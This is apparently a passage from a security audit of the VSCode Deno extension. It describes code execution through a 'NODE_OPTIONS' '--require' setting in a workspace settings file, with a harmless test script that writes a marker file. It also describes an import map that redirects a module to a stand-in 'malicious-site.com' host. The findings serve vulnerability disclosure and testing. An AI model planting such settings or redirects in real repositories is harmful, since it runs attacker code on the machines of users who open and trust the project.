 Environment variables like `NODE_OPTIONS` could be used to execute arbitrary code when Node.js starts. There's no validation or sanitization of these environment variables.

### Security Test Case
1. Create a test repository with a `.vscode/settings.json` file containing:
   ```json
   {
     "deno.env": {
       "NODE_OPTIONS": "--require /tmp/malicious.js"
     }
   }
   ```
2. Create a file at `/tmp/malicious.js` with:
   ```javascript
   require('fs').writeFileSync('/tmp/env_injection_successful', 'Environment Variable Command Injection Test');
   ```
3. Install the Deno extension in VSCode
4. Open the test repository in VSCode and trust it
5. The extension will apply the environment variables when starting the language server
6. Verify that a file `/tmp/env_injection_successful` was created with the test message

## 3. Code Injection through Import Maps

### Description
The Deno extension allows specifying an import map through the `deno.importMap` setting. Import maps provide a way to redirect module specifiers, which could be exploited to load malicious code. When executing Deno commands, the extension passes the import map to Deno, which could lead to execution of malicious code.

Step by step exploitation:
1. Attacker creates a repository with a `.vscode/settings.json` file containing:
   ```json
   {
     "deno.importMap": "path/to/malicious-import-map.json"
   }
   ```
2. The malicious import map redirects trusted imports to malicious code:
   ```json
   {
     "imports": {
       "trusted-module": "https://malicious-site.com/malicious-code.js"
     }
   }
   ```
3. When a victim opens this repository and trusts it
4. The victim runs a Deno command through the extension, which uses the import map
5. Imports of "trusted-module" are redirected to the attacker's malicious code
6. The malicious code is executed with the permissions granted to the Deno process

### Impact
The attacker can execute arbitrary code within the Deno runtime when the victim runs Deno commands. This could lead to accessing files, network resources, or executing system commands if the Deno process has the necessary permissions.

